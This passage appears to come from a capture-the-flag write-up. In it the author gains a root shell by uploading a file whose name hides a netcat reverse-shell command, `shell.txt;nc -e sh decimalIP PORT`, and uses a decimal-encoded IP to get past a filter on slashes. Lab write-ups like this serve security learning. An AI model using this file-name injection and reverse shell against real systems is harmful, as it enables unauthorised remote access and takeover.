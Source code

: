 Then I uploaded a file name `shell.txt;nc -e sh decimalIP PORT`, here the `decimalIP` is the IPv4 address converted to decimal value using a [script](https://github.com/4ndr34z/MyScripts/blob/master/ip2dh.py) @4ndr34z wrote.

![](images/fugit/rev.png)

__NOTE__: This whole thing is kind of mess because command injection isn't working with anything that involves `/`. So normal commands like `ls /root` etc wasn't working.

If we upload the file with that name and our listener listening we'll get a reverse shell.

![](images/fugit/shell.png)

Since we got shell as root I immediately `cd` to `/root` to get the flag but there was nothing.

![](images/fugit/nothing.png)

😡😡😡

***

I ran the enumeration script

![](images/fugit/cuuser.png)

we are root for sure.
